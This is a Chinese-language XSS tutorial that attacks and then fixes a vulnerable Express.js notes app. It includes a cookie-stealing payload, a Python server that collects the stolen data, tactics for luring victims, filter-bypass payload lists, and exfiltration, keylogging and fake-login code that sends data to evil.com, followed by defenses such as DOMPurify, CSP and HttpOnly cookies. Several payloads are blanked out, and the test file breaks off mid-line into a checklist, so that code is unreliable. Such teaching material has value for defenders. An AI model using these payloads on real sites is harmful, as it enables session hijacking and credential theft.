




## 案例一：JavaScript XSS漏洞挖掘与利用

跨站脚本攻击（Cross-Site Scripting，XSS）是Web安全中最经典、最高频的漏洞类型之一。OWASP Top 10连续多年将其列入最严重的Web应用安全风险。本案例以一个在线笔记应用为靶场，完整演示从漏洞识别、Payload构造、攻击实施到防御修复的全流程，帮助读者建立系统化的XSS攻防能力。

### XSS漏洞的本质

XSS的本质是**信任边界突破**：Web应用将用户提供的数据当作可信的HTML/JavaScript内容发送到浏览器执行。浏览器无法区分这段代码是应用开发者写的还是攻击者注入的——它忠实地执行收到的所有脚本。



### XSS的三种类型

在进入实战之前，必须理解XSS的三种基本形态。每种类型的触发条件、存储位置和利用方式都有本质区别：

| 类型 | 存储位置 | 触发方式 | 持久性 | 危害等级 | 典型场景 |
|------|---------|---------|--------|---------|---------|
| **存储型（Stored XSS）** | 服务器端数据库/文件 | 受害者访问含恶意脚本的页面 | 持久存在 | 最高 | 论坛帖子、评论区、用户资料、笔记内容 |
| **反射型（Reflected XSS）** | URL参数/表单提交 | 受害者点击特制链接 | 一次性 | 中等 | 搜索结果页、错误消息页、重定向参数 |
| **DOM型（DOM-Based XSS）** | 客户端DOM | 前端JS直接操作DOM触发 | 取决于存储 | 中高 | URL hash处理、前端路由、SPA应用 |

**存储型XSS**是危害最大的类型，因为恶意脚本持久存储在服务器上，每个访问该页面的用户都会中招，无需逐一诱骗。本案例中的笔记应用正是存储型XSS的典型场景。

### 靶场环境搭建

#### 应用架构

我们的靶场是一个基于Express.js的在线笔记应用，支持用户创建和分享笔记，笔记内容支持HTML渲染。



#### 漏洞源码分析

```javascript
// server.js — 存在XSS漏洞的Express笔记应用
const express = require('express');
const app = express();

app.set('view engine', 'ejs');
app.use(express.json());

// 笔记存储（模拟数据库）
const notes = {};

// 创建笔记 — 漏洞根源：未对用户输入做任何过滤
app.post('/notes', (req, res) => {
    const id = Math.random().toString(36).substr(2, 9);
    notes[id] = {
        content: req.body.content,  // ← 直接存储原始用户输入
        author: req.body.author,    // ← 同样未经过滤
        created: new Date()
    };
    res.json({ id, url: `/notes/${id}` });
});

// 查看笔记 — 漏洞触发点：将用户内容直接拼接进HTML
app.get('/notes/:id', (req, res) => {
    const note = notes[req.params.id];
    if (!note) return res.status(404).send('Note not found');
    // 危险：模板字符串直接嵌入未转义的用户数据
    res.send(`
        <html>
        <body>
            <h1>Note by ${note.author}</h1>
            <div>${note.content}</div>   <!-- ← XSS在此触发 -->
        </body>
        </html>
    `);
});

app.listen(3000);
```

**漏洞根因分析：**

这段代码包含两个关键的安全缺陷：

1. **输入未过滤（第15-16行）**：`req.body.content` 和 `req.body.author` 直接存入内存，没有任何转义或过滤。攻击者可以在 `content` 字段中写入任意HTML标签和JavaScript代码。

2. **输出未转义（第26-27行）**：使用ES6模板字符串（反引号）将用户数据直接拼接进HTML响应。与EJS的 `<%- %>` 非转义输出类似，模板字符串不会自动进行HTML实体编码。正确的做法是使用 `<%= %>`（EJS转义输出）或手动对 `&`、`<`、`>`、`"`、`'` 进行实体编码。

**易混淆点**：开发者可能以为模板字符串是"安全的"，因为它不是 `innerHTML`。实际上，任何将字符串拼接后作为HTML发送到浏览器的模式都存在XSS风险——因为浏览器解析的是最终收到的HTML字符串，不管它是怎么生成的。

### 攻击全流程实战

#### 攻击链总览



#### 第一步：构造XSS Payload

针对笔记内容字段，我们使用 `` 标签的 `onerror` 事件处理器来执行JavaScript。选择 `` 而非 `<script>` 的原因：`<script>` 标签在某些过滤规则下会被拦截，而 `` 标签搭配故意错误的 `src` 属性可以触发 `onerror` 事件，这是一种常见的绕过手段。

```bash
# 创建包含存储型XSS的笔记
curl -X POST http://target:3000/notes \
  -H "Content-Type: application/json" \
  -d '{
    "author": "Normal User",
    "content": ""
  }'
```

**Payload解析：**

| 组成部分 | 代码 | 作用 |
|---------|------|------|
| 标签选择 | `` | HTML原生标签，通常不在基础过滤名单中 |
| 触发机制 | `src=x` | 故意设置无效图片URL，强制浏览器触发onerror |
| 事件处理器 | `onerror=` | 图片加载失败时自动执行的JavaScript代码 |
| 数据外传 | `fetch('http://evil.com/steal?cookie=' + document.cookie)` | 将Cookie通过HTTP请求发送到攻击者控制的服务器 |

服务器返回笔记ID：

```json
{"id":"abc123","url":"/notes/abc123"}
```

#### 第二步：搭建接收服务器

攻击者需要一个服务器来接收被窃取的数据。最简单的方案是使用Python内置HTTP服务器，但生产环境中通常需要更完善的记录机制：

```python
# receiver.py — 数据接收服务器
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import urlparse, parse_qs
import json
from datetime import datetime

class StealHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed = urlparse(self.path)
        params = parse_qs(parsed.query)

        # 记录窃取的数据
        record = {
            'time': datetime.now().isoformat(),
            'path': self.path,
            'params': params,
            'source_ip': self.client_address[0],
            'user_agent': self.headers.get('User-Agent', '')
        }

        # 写入日志文件
        with open('stolen_data.log', 'a') as f:
            f.write(json.dumps(record, ensure_ascii=False) + '\n')

        print(f"[+] Stolen data from {self.client_address[0]}: {params}")

        # 返回1x1透明图片，避免受害者页面报错
        self.send_response(200)
        self.send_header('Content-Type', 'image/gif')
        self.end_headers()
        self.wfile.write(b'GIF89a\x01\x00\x01\x00\x80\x00\x00\xff\xff\xff\x00\x00\x00!\xf9\x04\x00\x00\x00\x00\x00,\x00\x00\x00\x00\x01\x00\x01\x00\x00\x02\x02D\x01\x00;')

    def log_message(self, format, *args):
        pass  # 禁用默认日志

if __name__ == '__main__':
    server = HTTPServer(('0.0.0.0', 8888), StealHandler)
    print('[*] Listening on port 8888...')
    server.serve_forever()
```

或者使用一行命令快速启动（适合测试环境）：

```bash
# 方法1：Python HTTP服务器（仅记录到stdout）
python3 -m http.server 8888

# 方法2：Netcat监听（可以看到原始HTTP请求）
nc -lvnp 8888

# 方法3：使用socat记录请求
socat TCP-LISTEN:8888,reuseaddr,fork SYSTEM:"echo '=== New Request ==='; cat"
```

#### 第三步：诱导受害者触发

攻击成功的关键一步是让受害者访问包含恶意脚本的笔记页面。常见诱导方式：

| 诱导方式 | 具体手法 | 防范难度 |
|---------|---------|---------|
| 钓鱼邮件 | 发送"请查看我的笔记分享"附带链接 | 中等 |
| 社交工程 | 在论坛/QQ群中分享"有趣的笔记" | 较低 |
| CSRF配合 | 在其他网站嵌入自动跳转到笔记页面的iframe | 高 |
| 短链接 | 使用短链接服务隐藏真实URL | 中等 |
| 二维码 | 生成包含恶意URL的二维码 | 较低 |

#### 第四步：验证攻击效果

当受害者（假设是管理员）访问笔记页面时，浏览器接收到的HTML如下：

```html
<html>
<body>
    <h1>Note by Normal User</h1>
    <div></div>
</body>
</html>
```

浏览器解析到 `` 时，尝试加载图片 `x`，失败后触发 `onerror`，执行JavaScript代码，将受害者的Cookie发送到攻击者的服务器。

在接收端日志中可以看到：

```text
[+] Stolen data from 192.168.1.100: {
    'cookie': 'session=eyJhbGciOiJIUzI1NiJ9...; admin=true',
    'user_agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)...'
}
```

### XSS进阶Payload技术

实际渗透中，目标应用通常存在各种过滤机制。以下是按难度递增的Payload技术：

#### 基础绕过：标签和属性变换

```javascript
// 1. 大小写混合绕过关键词过滤
<ScRiPt>alert(1)</ScRiPt>


// 2. 使用不常见的HTML标签
<svg onload=alert(1)>
<details open ontoggle=alert(1)>
<marquee onstart=alert(1)>
<video><source onerror=alert(1)>
<audio src=x onerror=alert(1)>
<body onload=alert(1)>

// 3. 使用JavaScript伪协议
<a href="javascript:alert(1)">click me</a>
<iframe src="javascript:alert(1)">
<form action="javascript:alert(1)"><input type=submit>
```

#### 中级绕过：编码和混淆

```javascript
// 4. HTML实体编码绕过

<!-- 解析后等同于 onerror="alert(1)" -->

// 5. Unicode转义绕过
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>

// 6. 八进制/十六进制编码


// 7. 双重编码绕过

// atob解码Base64得到 alert(1)
```

#### 高级绕过：上下文感知

```javascript
// 8. 闭合属性上下文
" onfocus=alert(1) autofocus="
' onmouseover=alert(1) '
">

// 9. 闭合JavaScript上下文
';alert(1);//
\"-alert(1)-\"
</script><script>alert(1)</script>

// 10. Mutation XSS（变种XSS）
<!-- 利用浏览器解析差异 -->
<noscript><p title="</noscript>">
<style></style>

// 11. 利用模板字符串注入（Node.js特有）
${alert(1)}
${require('child_process').exec('id')}
```

#### Payload构造决策树

```mermaid
graph TD
    A[确定注入点] --> B{注入上下文?}
    B -->|HTML标签内| C{过滤规则?}
    B -->|HTML属性内| D{属性类型?}
    B -->|JavaScript内| E{引号类型?}

    C -->|无过滤| F[直接使用script/img标签]
    C -->|过滤script| G[使用事件处理器<br/>如onerror/onload]
    C -->|过滤事件处理器| H[使用HTML实体编码<br/>或SVG标签]
    C -->|严格白名单| I[Mutation XSS<br/>或寻找解析差异]

    D -->|href/src| J[javascript:伪协议]
    D -->|style| K[expression()或url()]
    D -->|事件属性| L[闭合后注入新属性]

    E -->|单引号| M[';-alert(1)-']
    E -->|双引号| N[";-alert(1)-"]
    E -->|模板字符串| O[${alert(1)}]
    E -->|反引号| P[`-alert(1)-`]

    style A fill:#4ecdc4,color:#fff
    style F fill:#ff6b6b,color:#fff
    style G fill:#ff6b6b,color:#fff
    style H fill:#ffd93d,color:#333
    style I fill:#ff6b6b,color:#fff
```

### XSS漏洞检测方法

#### 手动检测流程

1. **识别输入点**：找到所有用户可控的输入位置（表单字段、URL参数、HTTP头、文件上传）
2. **注入测试标记**：在每个输入点注入唯一标记字符串（如 `xss12345`），观察是否出现在响应中
3. **确定上下文**：标记出现在HTML标签内、属性内、JavaScript内还是CSS内
4. **构造Payload**：根据上下文选择对应的Payload类型
5. **验证执行**：确认注入的JavaScript是否被浏览器实际执行

#### 自动化检测工具

| 工具 | 类型 | 特点 | 适用场景 |
|------|------|------|---------|
| **Burp Suite** | 商业（社区版免费） | 主动扫描+手动测试，OAST检测 | 专业渗透测试 |
| **XSStrike** | 开源Python | 模糊测试+Payload生成，智能绕过 | 自动化扫描 |
| **Dalfox** | 开源Go | 快速参数分析+DOM XSS检测 | 批量扫描 |
| **XSS Hunter** | SaaS平台 | Blind XSS检测，通过回调URL确认 | Blind XSS发现 |
| **Nuclei** | 开源Go | 模板化扫描，社区Payload库 | CI/CD集成 |

**使用XSStrike进行自动化检测：**

```bash
# 安装
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike && pip install -r requirements.txt

# 扫描目标URL
python3 xsstrike.py -u "http://target/notes/abc123"

# 扫描POST请求
python3 xsstrike.py -u "http://target/notes" \
  --data '{"content":"test","author":"test"}' \
  --post

# 使用crawl模式批量发现
python3 xsstrike.py -u "http://target" --crawl -l 3
```

#### Blind XSS检测

Blind XSS是指恶意脚本不在攻击者自己的浏览器中触发，而是在其他用户的浏览器（如管理员后台）中触发。检测方法：

```javascript
// Blind XSS Payload — 嵌入在可能被后台查看的字段中
// 例如：用户注册的"姓名"字段、反馈表单的"邮箱"字段
"><script src=https://your-xss-hunter.com/hook.js></script>

// 或者使用像素级回调


// 使用DNS回连确认

```

### 漏洞利用场景

XSS的利用远不止"弹个窗"那么简单。以下是实际危害场景：

#### 1. 会话劫持（Session Hijacking）

```javascript
// 窃取会话Cookie并发送到攻击者服务器
fetch('https://evil.com/collect', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({
        cookies: document.cookie,
        localStorage: JSON.stringify(localStorage),
        sessionStorage: JSON.stringify(sessionStorage),
        url: location.href
    })
});
```

#### 2. 键盘记录（Keylogging）

```javascript
// 记录用户在页面上的所有键盘输入
document.addEventListener('keypress', function(e) {
    new Image().src = 'https://evil.com/log?key=' +
        e.key + '&target=' + location.href;
});
```

#### 3. 钓鱼页面（Phishing）

```javascript
// 注入伪造的登录表单覆盖原页面
document.body.innerHTML = `
<div style="position:fixed;top:0;left:0;width:100%;height:100%;
    background:white;z-index:9999;display:flex;align-items:center;
    justify-content:center">
    <form action="https://evil.com/phish" method="POST">
        <h2>会话已过期，请重新登录</h2>
        <input name="username" placeholder="用户名"><br>
        <input name="password" type="password" placeholder="密码"><br>
        <button type="submit">登录</button>
    </form>
</div>`;
```

#### 4. CSRF令牌窃取

```javascript
// 如果CSRF令牌在DOM中而非Cookie中，可以通过XSS获取
const csrfToken = document.querySelector('meta[name="csrf-token"]')
    .getAttribute('content');
// 然后使用该令牌发起CSRF攻击
```

### 完整防御方案

#### 防御层次模型



#### 第一层：输入验证与过滤

```javascript
// 使用DOMPurify进行服务端HTML净化
const DOMPurify = require('dompurify');
const { JSDOM } = require('jsdom');
const window = new JSDOM('').window;
const purify = DOMPurify(window);

// 配置白名单标签和属性
const purifyConfig = {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br',
                   'ul', 'ol', 'li', 'code', 'pre', 'blockquote'],
    ALLOWED_ATTR: ['href', 'title', 'class'],
    ALLOW_DATA_ATTR: false,  // 禁止data-*属性
    // 禁止javascript:伪协议
    FORBID_TAGS: ['style', 'script', 'iframe', 'form', 'input'],
    FORBID_ATTR: ['onerror', 'onload', 'onclick', 'onmouseover']
};

app.post('/notes', (req, res) => {
    const id = Math.random().toString(36).substr(2, 9);
    notes[id] = {
        // 使用DOMPurify净化HTML，保留安全的格式标签
        content: purify.sanitize(req.body.content, purifyConfig),
        author: purify.sanitize(req.body.author, purifyConfig),
        created: new Date()
    };
    res.json({ id, url: `/notes/${id}` });
});
```

**DOMPurify vs 其他过滤库对比：**

| 库 | 语言 | 净化速度 | 安全性 | 配置灵活度 | 社区活跃度 |
|---|------|---------|--------|-----------|-----------|
| **DOMPurify** | JS | 极快（基于DOM操作） | 高（Cure53审计） | 高 | 非常活跃 |
| **sanitize-html** | JS | 快 | 高 | 很高（白名单模式） | 活跃 |
| **xss（npm）** | JS | 中等 | 中 | 中 | 维护中 |
| **bleach** | Python | 快 | 高 | 高 | 活跃 |
| **jsoup** | Java | 快 | 高 | 高 | 非常活跃 |

#### 第二层：上下文感知输出编码

如果应用不需要支持HTML格式内容（大部分场景），最安全的做法是完全转义而非过滤：

```javascript
// HTML实体编码函数
function escapeHtml(str) {
    const map = {
        '&': '&amp;',
        '<': '&lt;',
        '>': '&gt;',
        '"': '&quot;',
        "'": '&#x27;',
        '/': '&#x2F;'
    };
    return str.replace(/[&<>"'/]/g, char => map[char]);
}

// 安全的笔记查看路由
app.get('/notes/:id', (req, res) => {
    const note = notes[req.params.id];
    if (!note) return res.status(404).send('Note not found');

    // 对所有用户数据进行HTML转义后再拼接
    const safeAuthor = escapeHtml(note.author);
    const safeContent = escapeHtml(note.content);

    res.send(`
        <html>
        <body>
            <h1>Note by ${safeAuthor}</h1>
            <div>${safeContent}</div>
        </body>
        </html>
    `);
});
```

**不同上下文的编码方式：**

| 输出上下文 | 编码函数 | 示例 |
|-----------|---------|------|
| HTML标签内容 | HTML实体编码 | `<` → `&lt;` |
| HTML属性值 | HTML属性编码 + 引号包裹 | `"` → `&quot;` |
| JavaScript字符串 | JS Unicode编码 | `<` → `\u003c` |
| URL参数 | URL编码 | 空格 → `%20` |
| CSS值 | CSS十六进制编码 | `<` → `\3c` |

#### 第三层：内容安全策略（CSP）

```javascript
// CSP中间件 — 严格策略
app.use((req, res, next) => {
    res.setHeader('Content-Security-Policy', [
        // 默认策略：只允许同源
        "default-src 'self'",
        // 脚本：只允许同源，禁止内联脚本
        "script-src 'self'",
        // 样式：允许同源和内联样式（否则大部分UI框架会崩溃）
        "style-src 'self' 'unsafe-inline'",
        // 图片：允许同源和data:URI
        "img-src 'self' data:",
        // 禁止嵌入插件
        "object-src 'none'",
        // 禁止内联事件处理器（onerror, onclick等）
        // 注意：需要 script-src 不包含 'unsafe-inline'
        // 禁止base标签劫持
        "base-uri 'self'",
        // 限制表单提交目标
        "form-action 'self'",
        // 禁止被iframe嵌入（防Clickjacking）
        "frame-ancestors 'none'"
    ].join('; '));
    next();
});
```

**CSP对XSS的防御效果：**

| CSP指令 | 防御效果 | 说明 |
|---------|---------|------|
| `script-src 'self'` | 阻断内联脚本执行 | `onerror=alert(1)` 会被阻止 |
| `script-src 'nonce-xxx'` | 只允许带正确nonce的脚本 | 更精细的控制 |
| `style-src 'self'` | 阻断内联样式注入 | 防止CSS数据泄露 |
| `object-src 'none'` | 阻断插件加载 | 防止Flash/Java攻击 |
| `connect-src 'self'` | 限制XHR/fetch目标 | 阻断数据外传 |

**CSP的局限性：** CSP不是万能的。如果页面本身使用了 `unsafe-inline` 或 `unsafe-eval`（许多旧框架和SPA需要），CSP对XSS的防护会大打折扣。此外，CSP可以通过JSONP端点、CDN上的脚本等方式被绕过。CSP应作为纵深防御的一层，而非唯一防线。

#### 第四层：Cookie安全属性

```javascript
// 设置Cookie的安全属性
app.use((req, res, next) => {
    res.cookie('session', token, {
        httpOnly: true,    // 禁止JavaScript访问Cookie
        secure: true,      // 仅通过HTTPS传输
        sameSite: 'strict', // 禁止跨站请求携带Cookie
        maxAge: 3600000    // 1小时过期
    });
    next();
});
```

| Cookie属性 | 作用 | 对XSS防御的意义 |
|-----------|------|----------------|
| `HttpOnly` | JavaScript无法通过 `document.cookie` 读取 | 即使XSS存在，也无法窃取Cookie |
| `Secure` | Cookie只通过HTTPS传输 | 防止中间人窃取 |
| `SameSite=Strict` | 跨站请求不携带Cookie | 防止CSRF配合XSS |

**注意：** `HttpOnly` 不能防御XSS本身，它只能防止XSS窃取Cookie。攻击者仍然可以通过XSS进行钓鱼、键盘记录、篡改页面等攻击。因此 `HttpOnly` 是必要的补充措施，但不是XSS的替代防御。

#### 第五层：使用安全的模板引擎

```javascript
// 方案A：使用EJS的自动转义输出
// <%- %> 不转义（危险） vs <%= %> 自动转义（安全）
// EJS模板：
// <h1>Note by <%= note.author %></h1>
// <div><%= note.content %></div>

// 方案B：使用React的自动XSS防御
// React默认对JSX中的所有值进行转义
function NoteView({ author, content }) {
    return (
        <div>
            <h1>Note by {author}</h1>
            <div>{content}</div>
            {/* 即使content包含<script>标签，也会被转义为文本 */}
        </div>
    );
}

// 方案C：如果确实需要在React中渲染HTML
import DOMPurify from 'dompurify';
function RichNoteView({ content }) {
    const cleanHtml = DOMPurify.sanitize(content);
    return <div dangerouslySetInnerHTML={{ __html: cleanHtml }} />;
}
```

### 常见防御误区

| 误区 | 为什么无效 | 正确做法 |
|------|-----------|---------|
| 只过滤 `<script>` 标签 | ``, `<svg onload>` 等大量标签可执行脚本 | 使用DOMPurify白名单或完全转义 |
| 客户端验证就足够了 | 攻击者可以绕过浏览器直接发HTTP请求 | 必须在服务端验证和过滤 |
| 使用正则过滤 `on\w+=` | 可以通过编码、大小写、Unicode绕过 | 使用成熟的净化库而非自制正则 |
| 只防御反射型XSS | 存储型XSS危害更大，且DOM型XSS更隐蔽 | 三种类型全部防御 |
| WAF可以替代代码修复 | WAF规则可以被精心构造的Payload绕过 | WAF是补充，代码修复是根本 |
| `HttpOnly` 就安全了 | XSS可以做键盘记录、钓鱼、篡改页面 | 多层防御，`HttpOnly` 只是其中一层 |
| JSON API不需要担心XSS | 如果返回 `application/json` 且设置了正确的 `Content-Type`，确实安全；但很多API实际返回 `text/html` 或浏览器会做MIME嗅探 | 始终设置 `X-Content-Type-Options: nosniff` |

### 真实世界XSS事件

#### 案例一：Samy蠕虫（2005年）

MySpace社交网络遭受了互联网历史上最著名的XSS攻击。攻击者Samy Kamkar利用存储型XSS漏洞创建了一个蠕虫：当用户查看Samy的个人资料时，恶意脚本会自动将Samy添加为好友，并将相同的恶意代码复制到受害者自己的资料页。20小时内，超过100万用户被感染——这是互联网历史上传播最快的蠕虫之一。

**技术要点：** 攻击者需要绕过MySpace的多层过滤（移除 `javascript:`、`on*` 事件、`<script>` 标签等）。Samy使用了CSS表达式、`eval()`、`String.fromCharCode()` 等多种编码技术组合绕过过滤。

#### 案例二：Apache httpd基金会（2010年）

Apache JIRA的用户个人资料字段存在存储型XSS。攻击者在个人资料中注入恶意脚本，当管理员查看用户列表时触发。最终导致Apache基金会的代码仓库（包括httpd服务器源码）的JIRA/Confluence被入侵。

**教训：** 即使是顶级开源项目也会栽在XSS上。后台管理页面的XSS往往比前台更危险，因为管理员权限更大。

#### 案例三：British Airways（2018年）

攻击者通过修改British Airways网站上引用的第三方JavaScript文件（Magecart攻击），注入了信用卡窃取脚本。约38万客户的支付信息被窃取。虽然这本质上是供应链攻击，但利用的技术原理与DOM型XSS密切相关。

### 自动化测试集成

将XSS检测集成到开发流程中：

```javascript
// test/xss.test.js — 使用Jest + Puppeteer进行XSS测试
const puppeteer = require('puppeteer');

describe('XSS Prevention Tests', () => {
    let browser, page;

    beforeAll(async () => {
        browser = await puppeteer.launch({ headless: 'new' });
        page = await browser.newPage();
    });

    afterAll(async () => await browser.close());

    // 测试Payload列表
    const xssPayloads = [
        '<script>alert(1)</script>',
        '',
        '<svg onload=alert(1)>',
        '">',
        "';alert(1)//",
        '<iframe src="javascript:alert(1)">',
        '<details open ontoggle=alert(1)>',
    ];

    test.each(xssPayloads)(
        'should not execute XSS payload: %s',
        async (payload) => {
            // 创建包含XSS的笔记
            const response = await page.evaluate(async (p) => {
                const res = await fetch('/notes', {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/json' },
                    body: JSON.stringify({ content: p, author: 'test' })
                });
                return res.json();
            }, payload);

            // 监控是否有alert弹出
            let alertTriggered = false;
            page.on('dialog', async dialog => {
                alertTriggered = true;
                await dialog.dismiss();
            });

            // 访问笔记页面
            await page.goto(`http://localhost:3000/notes/${response.id}`);
            await page.waitForTimeout(1000);

            // 验证：alert不应被触发
            expect(alertTriggered).toBe(false);

            // 验证：Payload应被转义显示为文本
            const content = await page.textContent('div');
            expect(content).not.toContain('<script>');
            expect(content).not.toContain('、React JSX）
- [ ] 属性上下文：属性值用引号包裹且经过编码
- [ ] JavaScript上下文：使用JSON.stringify()或Unicode转义
- [ ] URL上下文：使用encodeURIComponent()
- [ ] 所有API响应设置了正确的Content-Type和X-Content-Type-Options: nosniff

### CSP配置
- [ ] script-src不包含unsafe-inline和unsafe-eval
- [ ] 使用nonce或hash机制允许必要的内联脚本
- [ ] object-src设置为none
- [ ] base-uri设置为self
- [ ] frame-ancestors设置为none或白名单

### Cookie安全
- [ ] 会话Cookie设置了HttpOnly属性
- [ ] 会话Cookie设置了Secure属性（仅HTTPS）
- [ ] 会话Cookie设置了SameSite=Strict或Lax
- [ ] 敏感操作要求重新认证（而非仅依赖Cookie）

### 测试覆盖
- [ ] 自动化测试包含XSS Payload注入测试
- [ ] CI/CD管线中集成了安全扫描工具
- [ ] 定期进行手动渗透测试
```

### 小结

本案例从一个简单的Express.js笔记应用出发，完整展示了XSS漏洞从发现到利用到修复的全生命周期。核心要点：

1. **XSS的本质**是用户数据被当作代码执行，根因在于信任边界混淆
2. **三种类型**（存储型、反射型、DOM型）对应不同的攻击路径和持久性
3. **防御纵深**由五层组成：输入验证 → 输出编码 → CSP → Cookie保护 → 安全框架
4. **没有单一银弹**：每一层都可能被绕过，但多层叠加使攻击成本指数级上升
5. **自动化测试**是持续保障的关键——手动检查无法覆盖所有输入点

在实际项目中，优先使用框架的自动转义机制（React、Vue的模板插值、EJS的 `<%= %>`），将DOMPurify作为需要HTML富文本时的必要补充，用CSP作为最后一道防线。三层叠加，即可覆盖绝大多数XSS攻击场景。
